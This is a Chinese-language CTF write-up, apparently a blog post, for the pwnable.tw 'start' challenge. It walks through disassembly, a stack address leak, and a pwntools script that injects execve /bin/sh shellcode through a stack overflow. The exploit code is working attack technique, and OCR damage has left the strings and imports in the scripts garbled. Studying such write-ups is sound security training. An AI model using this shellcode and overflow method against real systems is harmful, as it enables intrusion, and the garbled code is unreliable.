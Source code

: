 ```yaml
---
layout: post
title: "PWN.tw_start_wp"
subtitle: "start_writeup"
author: "Novocaine#p1an0@qq.com"
header-img: "img/post-bg-dreamer.jpg"
header-mask: 0.4
tags:
  - PWN
  - 二进制安全
  - CTF题解
---
```


题目地址：
--
httpspwnable.twchallenge#1

nc chall.pwnable.tw 10000

题目源码：
--

```C
char start()
{
  char result;  al

  result = 3;
  __asm
  {
    int     80h; LINUX - sys_write
    int     80h; LINUX -
  }
  return result;
}
```

只能看到IDA的伪码，发现调用都是使用int 0x80调用号

只能看汇编来分析了

```ASM
0x08048060 +0	push   esp
   0x08048061 +1	push   0x804809d
   0x08048066 +6	xor    eax,eax
   0x08048068 +8	xor    ebx,ebx
   0x0804806a +10	xor    ecx,ecx
   0x0804806c +12	xor    edx,edx
   0x0804806e +14	push   0x3a465443
   0x08048073 +19	push   0x20656874
   0x08048078 +24	push   0x20747261
   0x0804807d +29	push   0x74732073
   0x08048082 +34	push   0x2774654c
   0x08048087 +39	mov    ecx,esp
   0x08048089 +41	mov    dl,0x14
   0x0804808b +43	mov    bl,0x1
   0x0804808d +45	mov    al,0x4
   0x0804808f +47	int    0x80
   0x08048091 +49	xor    ebx,ebx
   0x08048093 +51	mov    dl,0x3c
   0x08048095 +53	mov    al,0x3
   0x08048097 +55	int    0x80
   0x08048099 +57	add    esp,0x14
= 0x0804809c +60	ret    

```
int 0x80时，eax是多少就意味着调用了什么函数，看一下调用号就可以了。
0x3是read，0x4是write，没有gadgets
猜测这道题需要构造int 0x80来调用execute函数(0xb)
int 0x80的文已经烂大街了，直接写shellcode吧
```python

shellcode = 

shellcode += xor edx,edxn

shellcode += xor ecx,ecxn

shellcode += mov eax,0xbn

shellcode += push edxn

shellcode += push 0x68732f2fn

shellcode += push 0x6e69622fn

shellcode += mov ebx,espn

shellcode += int 0x80n

```

算Padding

这道题使用的是平底栈，则开局根本没有push ebx

还好能看到有抬栈的在ret上面：

```
    0x08048099 +57	add    esp,0x14
```

所以输入的值到栈底的距离就是0x14

```Python

padding = a0x14

```

我们需要把shellcode写到一个栈空间中，然后控制ret跳转到那里。

我们可以把shellcode写到这个函数栈下面，然后控制ret跳下去，首先我们要leak出ret下面的地址

找到int80 调用的wrtie地址，它会顺着栈继续打印ecx的值，长度为edx

```
 0x0804806e +14	push   0x3a465443
   0x08048073 +19	push   0x20656874
   0x08048078 +24	push   0x20747261
   0x0804807d +29	push   0x74732073
   0x08048082 +34	push   0x2774654c
   0x08048087 +39	mov    ecx,esp
   0x08048089 +41	mov    dl,0x14
   0x0804808b +43	mov    bl,0x1
   0x0804808d +45	mov    al,0x4
   0x0804808f +47	int    0x80
```
write原型是这样写的，ecx是esp，edx为0x14，我们只取4就行

```python
cli = process(.start)

payload = 

payload += padding

payload += p32(0x08048087)

cli.sendafter(,payload)

addr = u32(cli.recv(4))

```

现在获取addr就是shellcode即将写入的地址

接下来就是把shellcode搞进去，控制ret指向shellcode的位置就行（因为我们要控制ret，所以又push了个padding进去，addr要加padding才指向的是shellcode的位置）

```

payload = ""

payload += padding

payload += p32(addr+padding)

payload += asm(shellcode)

cli.sendline(payload)

cli.interactive()

```

把代码组装一下：

```python

from pwn import 

shellcode = 

shellcode += xor edx,edxn

shellcode += xor ecx,ecxn

shellcode += mov eax,0xbn

shellcode += push edxn

shellcode += push 0x68732f2fn

shellcode += push 0x6e69622fn

shellcode += mov ebx,espn

shellcode += int 0x80n

padding = a0x14

cli = process(.start)

payload = 

payload += padding

payload += p32(0x08048087)

cli.sendafter(,payload)

addr = u32(cli.recv(4))

payload = 

payload += padding

payload += p32(addr+padding.__len__())

payload += asm(shellcode)

cli.sendline(payload)

cli.interactive()
```